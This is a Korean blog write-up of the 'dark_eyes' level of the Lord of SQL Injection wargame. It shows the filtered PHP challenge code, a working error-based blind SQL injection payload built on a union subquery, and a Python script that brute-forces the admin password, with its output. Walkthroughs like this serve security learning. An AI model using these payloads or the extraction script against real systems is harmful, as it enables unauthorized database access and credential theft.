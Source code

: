 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - dark_eyes 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에도 역시 `Error`를 기반으로 한 `Error Based Blind SQL Injection` 이다.  

그런데 이번에는 이 전 문제랑은 약간 다르다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw=''
------------------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

이 전 문제에서 사용했던 `if`가 필터링 대상에 들어가 있고, `if`를 대체할 수 있는 `case`나 `when`도 필터링한다.  

즉, 조건문을 사용할 수가 없다.  

그래서 내가 처음에 생각했던 방법은 `and`와 `or`을 적절히 이용하는 것이다.  

만약에 `1 or 0`이라는 조건이 있다면, 앞의 `1`이 이미 참이기 때문에 뒤의 `0`은 체크하지 않는다고 생각했다.  

반면 `0 or 1`이라면, 앞의 `0`이 거짓이기 때문의 뒤의 `1`을 체크하는 것이다.  

그래서 앞에 `pw`의 길이와 내용을 알기 위한 쿼리를 넣고 뒤에 에러를 유발하는 쿼리문을 넣는다면, 앞의 조건이 참이라면 뒤의 에러 유발용 쿼리가 실행되지 않아 정상적으로 페이지가 보일 것이라고 생각했던 것이다.  

그런데 음... 내가 뭘 잘못 한 것인지 이건 아무리 해도 안됬다.  

정확히는 쿼리 스트링을 `pw=1' or id='admin' and ord('a')=97 or 9e307*2`를 넣으면 앞의 `id='admin' and ord('a')=97`가 참이기 때문에 뒤의 `9e307*2`에 대해서 에러가 발생하지 않는다.  

(9e307은 MySQL에서의 최대값이기 때문에 9e307*2를 하면 `DOUBLE value is out of range in '(9e307 * 2)'`라는 에러가 발생한다.)  

그런데 `pw=1' or id='admin' and length(pw)>0 or 9e307*2`을 넣으면 무슨 조건을 넣더라도 무조건 에러가 나왔다.  

왜 이러는지 이유를 모르겠다 ㅠㅠ  

그래서 결국 다른 방법을 찾아보아서 아래와 같이 쿼리 스트링을 구성 해 문제를 풀었다.  

```
?pw=1' or id='admin' and (select 1 union select (length(pw)=1))#
```

이렇게 하면 만약 `length(pw)=1`이 참이라면 `1`을 반환하기 때문에 `select 1 union select 1`이 되어 한 행만 결과로 나온다.  

하지만 거짓이라면 `select 1 union select 0`을 하게 되면, 2개의 행을 반환하기 때문에 `Subquery returns more than 1 row`라는 오류를 출력한다.  

이를 바탕으로 `pw`를 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and (select 1 union select (length(pw)=" + str(i) + "))%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'select id from prob_dark_eyes' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and (select 1 union select (ord(substr(pw, " + str(j) + ", 1))=" + str(i) + "))%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'select id from prob_dark_eyes' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

그 결과 소문자와 숫자로 구성 된 8자리 `pw`값을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 5
[+] Found 2 : 5a
[+] Found 3 : 5a2
[+] Found 4 : 5a2f
[+] Found 5 : 5a2f5
[+] Found 6 : 5a2f5d
[+] Found 7 : 5a2f5d3
[+] Found 8 : 5a2f5d3c
[+] Found password :  5a2f5d3c
[+] End
```

이 값을 쿼리스트링으로 넘겨주면 문제를 풀 수 있다.  

```
?pw=5a2f5d3c
```

```php
----------------------------------------------------------------------------------------------------
query : select id from prob_dark_eyes where id='admin' and pw='5a2f5d3c'
----------------------------------------------------------------------------------------------------

DARK_EYES Clear!
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

`DARK_EYES Clear!!`
